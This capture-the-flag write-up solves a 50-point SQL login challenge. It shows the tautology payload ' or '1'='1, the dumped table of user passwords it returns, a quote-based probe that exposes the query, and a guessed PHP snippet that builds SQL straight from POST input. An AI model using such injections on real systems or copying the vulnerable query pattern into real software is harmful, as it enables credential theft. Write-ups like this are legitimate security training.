 ![Change ajax request](/images/2019-01-12-can-you-hack-it/change-ajax-request.jpg)

## Input Validation

### SQL Login (50 Points)

Figure out the password to login.

Get the password for user: `fry`

Enter the login password.

#### Solution 3-1

1. Enter

```plain
' or '1'='1
```

2. It directly gives you the SQL query result. (This may be impossible for any website)

```plain
admin,Gu3ss_Myp4s%w0rd**
bender,b1t3-my-shiny-m3t4l-4$$
fry,w4ts-w/-th3-17-dungbeetles
farnsworth,P4zuzu!!
scruffy,Im_0n-br3ak
zoidberg,sp4r3-ch4ng3#$$$
```

3. Enter the password will solve the problem.

```plain
w4ts-w/-th3-17-dungbeetles
```

#### Digging Deeper

Enter

```plain
'
```

This may cause SQL syntax error.

And we got SQL error messages. We can find that the SQL is

```sql
SELECT username, password FROM users WHERE username='fry' AND password='$1'
```

We can't get this problem solved with only one request. We must enter the password in the second request.

I think the code might be

```php
<?php
$mysqli = new mysqli("localhost", "username", "password", "database");
if ($mysqli->connect_errno) {
    exit();
}
$result = $mysqli->query("SELECT username, password FROM users WHERE username='fry' AND password='$_POST['answer']'");
if ($result) {
    $row = $result->fetch_assoc();
    if ($row) {
        if ($_POST['answer'] === $row["password"]) {
            $solved = true;
        }
```